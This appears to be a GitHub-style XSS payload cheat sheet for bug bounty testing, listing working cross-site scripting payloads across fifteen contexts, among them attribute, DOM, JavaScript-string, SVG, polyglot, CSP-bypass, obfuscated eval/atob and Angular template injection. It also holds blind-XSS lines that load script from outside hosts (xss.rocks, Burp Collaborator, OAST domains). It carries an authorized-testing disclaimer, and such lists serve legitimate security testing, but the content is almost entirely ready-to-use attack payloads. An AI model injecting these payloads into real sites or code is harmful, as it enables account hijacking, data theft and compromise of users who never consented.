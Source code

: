 ## All XSS Payloads Should Be Tested Ethically and Only in Authorized Environments

* Bypasses often rely on **browser quirks**, **contextual placement**, or **filter evasion**.
* XSS without context is useless—understand the sink, encoding, sanitization, and injection point.

---

# 🧨 XSS Payload Cheat Sheet

> *A curated collection of XSS payloads for bug bounty and research use. Organized by context and filter bypass techniques.*
> *All payloads are **for authorized testing only**. Responsible disclosure encouraged.*

---

## 🔹 1. Basic Payloads

```html
<script>alert(1)</script>
<svg onload=alert(1)>
<iframe src="javascript:alert(1)"></iframe>
<math><mi//xlink:href="javascript:alert(1)">CLICK</math>
<IMG SRC="javascript:alert(1)">
<IMG SRC=# onerror="alert(1)">
```

---

## 🔹 2. Attribute Injection (e.g., inside `href`, `src`, etc.)

```html
"><script>alert(1)</script>
"><img src=x onerror=alert(1)>
"onmouseover="alert(1)
javascript:alert(1)
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
```

---

## 🔹 3. Event Handler Injection

```html
<video autoplay onloadstart=alert(1)>
<svg onmouseover=alert(1)>
<body onresize=alert(1)>
<details ontoggle=alert(1)>
<marquee onstart=alert(1)>
```

---

## 🔹 4. DOM XSS (Client-side sink exploitation)

```js
// Sinks
document.write("<img src=x onerror=alert(1)>")
location.hash = "<svg onload=alert(1)>"
document.body.innerHTML = location.hash
```

---

## 🔹 5. HTML Injection in `input` or `textarea`

```html
<textarea autofocus onfocus=alert(1)>X
<input autofocus onfocus=alert(1) type=text>
<keygen autofocus onfocus=alert(1)>
```

---

## 🔹 6. JS Context Injection

```js
');alert(1);//
";alert(1);// 
';alert(String.fromCharCode(88,83,83));// 
" style="animation-name:x" onanimationstart=alert(1)
```

---

## 🔹 7. SVG & XML-based Payloads

```html
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><body xmlns="http://www.w3.org/1999/xhtml" onload="alert(1)"></body></foreignObject></svg>
```

---

## 🔹 8. Polyglot Payloads

```html
"><svg/onload=alert(1)>"
</script><svg/onload=alert(1)>//
"><script src=//xss.rocks/xss.js></script>
<iframe/src="data:text/html,<script>alert(1)</script>">
```

---

## 🔹 9. CSP Bypass Examples

```html
<script src='data:text/javascript,alert(1)'></script>
<img src=x onerror="eval(String.fromCharCode(97,108,101,114,116,40,49,41))">
<svg><script xlink:href="data:text/javascript,alert(1)"></script></svg>
```

---

## 🔹 10. Advanced JS URI + UTF-7/8/Obfuscation

```html
<a href="javas&#99;ript:alert(1)">X</a>
<svg><script>eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029')</script></svg>
<script>eval(atob("YWxlcnQoMSk="))</script>
```

---

## 🔹 11. Inline JavaScript with `setTimeout`, `Function`, etc.

```html
<img src=x onerror="setTimeout`alert\x281\x29`">
<img src=x onerror="(new Function`alert(1)`)()">
<svg><script>top </script></svg>
```

---

## 🔹 12. Framework-Specific Tricks

### React / Angular / Vue:

```jsx
// React JSX
dangerouslySetInnerHTML={{__html: '<img src=x onerror=alert(1)>'}}

// AngularJS Template Injection
{{constructor.constructor('alert(1)')()}}

// Vue XSS via {{ }}
<div>{{alert(1)}}</div>
```

---

## 🔹 13. Input Encoding and Filter Bypass

```html
<svg o%6e%6c%6f%61%64=alert(1)>
<IMG SRC=JaVaScRiPt:alert(1)>
<svg><script>eval/*x*/(String.fromCharCode(97,108,101,114,116,40,49,41))</script></svg>
```

---

## 🔹 14. File Upload (if HTML/JS is accepted)

```html
// test.svg
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>

// test.html
<html><body><script>alert(1)</script></body></html>
```

---

## 🔹 15. Blind XSS for Collaboration Tools or Admin Panels

```html
<script src=//yourdomain.burpcollaborator.net></script>
<img src=//yourdomain.oast.live onerror=alert(1)>
```

---
